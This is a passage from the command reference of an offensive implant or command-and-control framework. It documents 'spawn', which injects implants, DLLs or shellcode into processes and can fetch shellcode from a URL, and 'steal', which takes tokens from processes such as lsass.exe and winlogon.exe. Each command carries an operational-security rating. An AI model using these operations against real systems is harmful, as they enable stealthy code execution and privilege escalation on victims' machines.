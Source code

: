   to assembly before sending it to the client.
  The parent of the zombie process can be controlled by the parent filter,
  which can be updated with the filter commands. By default the parent
  will be the current client process if not set.
  The `-e` or `--entry` argument can be used to specify the function started
  after DLLMain (if the file is a DLL or DLL bytes).

The arguments for this command are similar to the `migrate` command.

### Examples:

```shell
spawn pipe-me self
spawn -m exec pipe-me
spawn -p my_profile -m dll pipe-me ~/implant.dll
spawn pipe-me <http://path.to.shell.code>
spawn -m url pipe-me path.to.shell.code
spawn -p my_profile -m asm ~/bolt.bin
spawn -m zombie -f notepad.exe ~/implant.dll
spawn -m self -u admin -p Password123 derp-me
```

## steal

```text
steal [pid | process_name]
```

|       |                             |
| ----- | --------------------------- |
| OS    | Any                         |
| OPsec | Safe                        |
| Admin | Maybe _(depends on target)_ |

Attempt to steal and use a token from the target process.

If the pid and/or name is not supplied, the parent filter will be used,
which can be updated with the parent commands.

If no pid or name is supplied and the parent filter is empty, this will
return an error.

Alias of `elevate`.

### Examples:

```shell
steal
steal 1337
steal lsass.exe
steal winlogon.exe
```

## touch
